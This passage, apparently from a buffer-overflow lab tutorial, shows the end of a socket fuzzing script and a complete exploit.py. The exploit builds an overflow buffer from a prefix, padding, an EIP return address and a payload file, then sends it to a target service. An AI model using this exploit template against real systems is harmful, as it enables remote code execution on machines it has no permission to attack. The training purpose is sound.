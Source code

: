 ```python3
            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
```

And `exploit.py` should look something like this:

```python3
#!/usr/bin/env python3

import socket
import argparse

parser = argparse.ArgumentParser(description="Exploit script")
parser.add_argument("--ip", required=True, help="Target IP address")
parser.add_argument("--port", type=int, default=1337, help="Target port (default: 1337)")
parser.add_argument("--prefix", required=True, help="Prefix before payload")
parser.add_argument("--offset", type=int, default=0, help="Offset to EIP")
parser.add_argument("--retn", default="", help="Return address (e.g., '\\xaf\\xbe\\xad\\xde')")
parser.add_argument("--padding", default="", help="Padding (default: empty)")
parser.add_argument("--payload", required=True, help="Path to payload file")

args = parser.parse_args()

ip = args.ip
port = args.port
prefix = "OVERFLOW" + args.prefix + " "
offset = args.offset
retn = args.retn
padding = args.padding

with open(args.payload, "rb") as f:
    payload = f.read()  # Read payload as raw bytes

buffer = prefix + "A" * offset + retn + padding + payload.decode("latin-1")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```
